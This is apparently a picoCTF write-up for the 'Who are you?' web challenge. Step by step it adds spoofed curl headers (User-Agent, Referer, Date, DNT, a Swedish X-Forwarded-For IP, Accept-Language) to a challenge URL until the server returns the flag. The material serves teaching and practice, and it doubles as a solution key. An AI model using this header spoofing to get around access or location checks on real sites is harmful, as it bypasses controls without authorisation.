 # Who are you?

## Information about the CTF
Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:36622/

## How to solve it
The website gives us a different message depending on request headers.

### Only people who use the official PicoBrowser are allowed on this site!
Well, to bypass this we can just set the user agent to `PicoBrowser` using the `-A` flag in curl.

```bash
$ curl -A "PicoBrowser" http://mercury.picoctf.net:36622/
```

### I don't trust users visiting from another site.
Hmm, we can set the referer to the same site using the `--referer` flag in curl in order to bypass this.

```bash
$ curl -A "PicoBrowser" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622/
```

### Sorry, this site only worked in 2018.
Here, we can set the date to some random day in 2018 using the `-H` (header) flag along with the `Date` header in curl, which will get us past this.

```bash	
$ curl -A "PicoBrowser" -H "Date: Mon, 23 11 2018 23:23:23 GMT" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622/
```

### I don't trust users who can be tracked.
The `DNT` header is used to tell websites that you don't want to be tracked. We can set this using the `-H` flag in curl, thereby bypassing this.


```bash	
$ curl -A "PicoBrowser" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622/
```

### This website is only for people from Sweden.
By setting the `X-Forwarded-For` header to a random IP address in Sweden, we can bypass this.


```bash	
$ curl -A "PicoBrowser" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622
```

### You're in Sweden but you don't speak Swedish?
Lets set the `Accept-Language` header to `sv-SE` (Swedish) in order to bypass this.

```bash	
$ curl -A "PicoBrowser" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" -H "Accept-Language: sv-SE" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622/
```

And finally, this was the last change we needed to make in order to get the flag.

### Finalizing and cleaning up the command
But lets clean up the command a bit and only show the flag.

```bash	
$ curl -s -A "PicoBrowser" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" -H "Accept-Language: sv-SE" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622/ |grep -oI "picoCTF{.*}"
```

